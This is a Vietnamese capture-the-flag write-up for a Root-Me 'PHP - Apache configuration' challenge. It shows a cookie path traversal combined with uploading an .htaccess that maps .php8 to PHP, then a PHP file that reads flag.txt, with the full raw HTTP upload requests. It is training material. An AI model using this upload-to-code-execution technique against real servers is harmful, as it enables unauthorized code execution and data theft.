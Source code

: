 # PHP - Apache configuration

## Solution

- Quan sát

    - Phân tích request - response cho chức năng tải lên và quan sát rằng có thể tải lên php8.

    - Ngoài ra, hãy quan sát rằng `Cookie: PHPSESSID-APACHE2RCE=` cookie dẫn đến lỗ hổng path traversal (có thể thay đổi thư mục "create" nơi muốn tải file lên).

    - Ngoài ra, hãy quan sát rằng có thể tải lên tệp .htaccess và ghi lại quyền thực thi cho php.

- Chuẩn bị payload

    - Chuẩn bị file .htaccess:

    ```
    AddType application/x-httpd-php .php8
    ```

    - Chuẩn bị malicious file (trong trường hợp này là xxx.php8):

    ```
    <?php
    $flag = '/var/www/html/private/flag.txt';
    echo file_get_contents($flag);
    ?>
    ```

- Tấn công:

    Tải lên 2 tệp bằng giá trị cookie đã sửa đổi (`PHPSESSID-APACHE2RCE=a/../../`):

    -> Tải lên .htaccess vào thư mục /uploads

    ```
    POST /index.php HTTP/1.1
    Host: challenge01.root-me.org:59062
    Content-Length: 230
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://challenge01.root-me.org:59062
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryUBfb8CcZzcx6QNff
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://challenge01.root-me.org:59062/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

    Cookie: {{PHPSESSID-APACHE2RCE=a/../../}}

    Connection: close

    ------WebKitFormBoundaryUBfb8CcZzcx6QNff
    Content-Disposition: form-data; name="uploaded_file"; filename=".htaccess"
    Content-Type: text/php

    AddType application/x-httpd-php .php8


    ------WebKitFormBoundaryUBfb8CcZzcx6QNff--
    ```

    Tải lên file độc hại để đọc flag:

    ```
    POST /index.php HTTP/1.1
    Host: challenge01.root-me.org:59062
    Content-Length: 282
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://challenge01.root-me.org:59062
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryUBfb8CcZzcx6QNff
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://challenge01.root-me.org:59062/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
    Cookie: PHPSESSID-APACHE2RCE=a/../../
    Connection: close

    ------WebKitFormBoundaryUBfb8CcZzcx6QNff
    Content-Disposition: form-data; name="uploaded_file"; filename="flag.php8"
    Content-Type: text/php

    <?php

    $flag = '/var/www/html/private/flag.txt';
    echo file_get_contents($flag);


    ?>

    ------WebKitFormBoundaryUBfb8CcZzcx6QNff--
    ```

    Lấy flag: Điều hướng đến uploads//flag.php8